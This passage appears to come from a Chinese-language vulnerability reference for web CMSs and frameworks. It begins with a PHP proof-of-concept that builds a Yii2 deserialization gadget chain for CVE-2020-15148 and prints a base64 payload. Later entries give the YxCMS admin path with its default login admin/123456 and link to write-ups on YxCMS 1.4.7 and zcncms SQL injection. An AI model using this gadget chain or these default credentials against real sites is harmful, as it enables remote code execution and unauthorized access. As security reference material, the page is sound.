     namespace Faker{
        use yii\rest\CreateAction;

        class Generator{
            protected $formatters;

            public function __construct(){
                $this->formatters['close'] = [new CreateAction, 'run'];
            }
        }
    }
    namespace yii\db{
        use Faker\Generator;

        class BatchQueryResult{
            private $_dataReader;

            public function __construct(){
                $this->_dataReader = new Generator;
            }
        }
    }
    namespace{
        echo base64_encode(serialize(new yii\db\BatchQueryResult));
    }
    ?>
    ```
    - [Maskhe/CVE-2020-15148-bypasses](https://github.com/Maskhe/CVE-2020-15148-bypasses)

---

### YxCMS

> 官网 : http://www.yxcms.net

**常见路径**
```
/index.php?r=admin  # 后台  默认管理员账号密码 admin 123456
```

**YxCMS 1.4.7 多个漏洞**
- 相关文章
    - [YxCMS 1.4.7 最新版漏洞分析](https://bbs.ichunqiu.com/thread-45926-1-1.html)

---

### zcncms

**相关文章**
- [zcncms多个漏洞-Musec](http://musec.lofter.com/post/303379_d39f0c)
- [ZCNCMS审计及漏洞分析](https://www.anquanke.com/post/id/179782)
- [代码审计——zcncms后台SQL注入(一) ](http://0day5.com/archives/4053/)
- [代码审计——zcncms几处漏洞合集(二) ](http://0day5.com/archives/4062/)

---
